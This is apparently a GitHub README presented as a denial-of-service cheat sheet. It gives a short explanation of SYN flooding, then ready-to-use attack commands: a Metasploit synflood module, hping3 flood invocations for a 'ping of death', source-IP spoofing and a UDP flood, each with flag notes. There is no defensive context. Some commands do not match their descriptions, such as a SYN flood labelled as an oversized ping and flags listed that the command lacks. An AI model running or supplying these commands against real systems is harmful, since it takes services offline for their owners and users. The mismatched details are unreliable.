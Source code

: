 ## DoS cheat sheet

### SYN Flooding
SYN flooding takes advantage of a flaw with regard to how most hosts implement the TCP three-way handshake. This attack occurs when the intruder sends unlimited SYN packets (requests) to the host system. The process of transmitting such packets is faster than the system can handle. Normally, the connection establishes with the TCP three-way handshake, and the host keeps track of the partially open connections while waiting in a listening queue for response ACK packets.

#### Using Metasploit

```sh
msfconsole
use auxiliary/dos/tcp/synflood
```

### PoD attack
The attacker tries to crash, freeze, or destabilize the targeted system or service by sending malformed or oversized packets using a simple ping command.

#### Using hping3

```sh
hping3 --d 65538 -S -p 21 --flood [Target IP]
```
-d: Specifies data size.

-S: Sets the SYN flag.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.

### Spoof source IP

#### Using hping3

```sh
hping3 -S [Target IP] -a [IP Spoofed]
```
-S: Sets the SYN flag.

-a: Spoofs the IP address.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.


### UDP application layer flood attack

#### Using hping3

```sh
hping3 -2 -p 139 --flood [Target IP]
```
-2: Specifies the UDP mode.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.


## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`